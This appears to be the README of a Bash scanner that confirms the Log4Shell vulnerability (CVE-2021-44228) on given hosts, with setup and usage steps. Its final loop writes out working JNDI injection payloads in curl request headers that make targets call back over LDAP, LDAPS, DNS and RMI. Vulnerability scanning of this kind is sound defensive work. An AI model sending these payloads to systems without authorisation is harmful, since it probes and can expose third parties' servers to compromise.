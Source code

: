 # log4jScanner

 log4jScanner.sh is a BASH script to confirm the vulnerability (CVE-2021-44228) of a given IP/URL.
 
 And the script validates the return traffic on 4 protocols ldap | ldaps | rmi | dns 
 
 The testing methedology is completely noninvasive. 
 
 ## Attack Vector:
 
 First and foremost, I suggest reviewing the provided pcapng file in wireshark for a thorough understanding of a attack vector. 
 The pcapng file captured the complete start-to-end of the traffic related to a compromised target in lab environment.
 
 For your reference, 192.168.190.100 is the attacker's IP, and 192.168.190.44 is the victim's IP. 
 
 
## Requirements

If you prefer to test the internet facing target, then this test requires to be executed on a DMZ host,
on which you can open desired port for scanner's return traffic from the target. I have used and tested on free tier AWS EC2 Kali Linux instance. 

If you prefer to test the intranet facing target, then you simply make sure that Scanner-Return-Traffic-Port is reachable to the target. 

[Example: ./log4jScanner.sh 192.168.1.100:443 1389]

## Prepare the Kali instance with the below mentioned packages.

```bash
 apt install iptables iptables-persistence rsyslog curl vim
 
 systemctl restart rsyslog
 
```
## Download the script
```bash
git clone https://github.com/defcon250/log4jScanner
```

## Usage

```bash
  cd ./log4jScanner
  ./log4jScanner.sh  <Target-IP>:<Target-Port>  <Scanner's-Return-Traffic-Port>  
  
  [Example: ./log4jScanner.sh 192.168.1.100:443 1389]

```
## For testing multiple IP/URLs, please feel free to modify the script accordingly.
```bash
FOR loop example: 
for i in $(cat /tmp/urls.txt); do timeout 2 curl -ksqL http://"$i" -H "x-api-version: \${jndi:ldap://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1>  /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:dns://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:rmi://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; done
````


